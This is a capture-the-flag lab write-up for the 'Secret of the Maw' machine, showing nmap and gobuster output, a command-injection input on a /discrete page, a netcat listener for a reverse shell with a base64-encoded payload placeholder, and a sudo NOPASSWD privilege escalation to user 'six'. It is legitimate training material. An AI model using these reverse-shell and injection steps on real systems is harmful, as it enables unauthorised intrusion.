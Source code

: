 # CTF: Secret of the Maw

![Difficulty: Easy](https://img.shields.io/badge/difficulty-easy-%2300ff00)
![Contest Date: 2024-05-14](https://img.shields.io/badge/contest%20date-2024--05--14-informational)
![Category: FTP](https://img.shields.io/badge/category-ftp-%237159c1)
![By: Alexandre & Eloi](https://img.shields.io/badge/by-Alexandre%20%26%20Eloi-%23f9a03c)
![alt text](img/secretofthemaw.png)

## Description

> Uncover the secrets of the maw, and don't get caught!

## Write-up

The flag is a reference to the Harry Potter series.

UserFlag: user.txt
RootFlag: root.txt

## Flag Solutions

### User Flag

First thing to do is to check open ports on the target machine. We can do this by running a port scan using `nmap`.

```bash
nmap -sSV $IP
```

Results :

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2024-05-20 10:26 BST
Nmap scan report for ip-10-10-118-193.eu-west-1.compute.internal (10.10.118.193)
Host is up (0.0060s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:81:96:FF:41:9D (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

The target machine has three open ports, 22, 21 and 80. Port 21 is running an FTP server. Let's connect to the FTP server.

We go to the 80 port :

`http://$IP`

We see a website with a gif :

![alt text](img/secretofthemaw1.png)

We can use gobuster to find hidden directories :

```
gobuster dir --url http://$IP -w Tools/wordlists/dirbuster/directory-list-2.3-small.txt
```

Results :

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.118.193
[+] Threads:        10
[+] Wordlist:       Tools/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/05/20 10:31:03 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/discrete (Status: 301)
Progress: 46295 / 87665 (52.81%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2024/05/20 10:31:10 Finished
===============================================================
```

We go to the `/discrete` directory :

`http://$IP/discrete`

We see a page with a gif and a input

![alt text](img/secretofthemaw2.png)

If we try to put a random input, we see nothing happens.
But if we put linux commands, we are redirected to a page saying "You weren't discrete ! Hide quickly or he's going to find you!"

We have to do a reverse shell to get the user flag.  
http://localhost:7778

We can use the following command :

**In the attacker machine :**

```
nc -lvnp 9001
```

**In the target website :**

```
echo « BASE64 » | base64 —decode
```

We do `sudo -l` to see the sudo rights of the user.

```bash
User www-data may run the following commands on the-maw:
    (six) NOPASSWD: /home/six/.musicbox
```

We can execute the `/home/six/.musicbox` file as the user
```bash
sudo -u six /home/six/.musicbox
```

We are connected to `six` user. We have the user flag in the `/home/six` directory.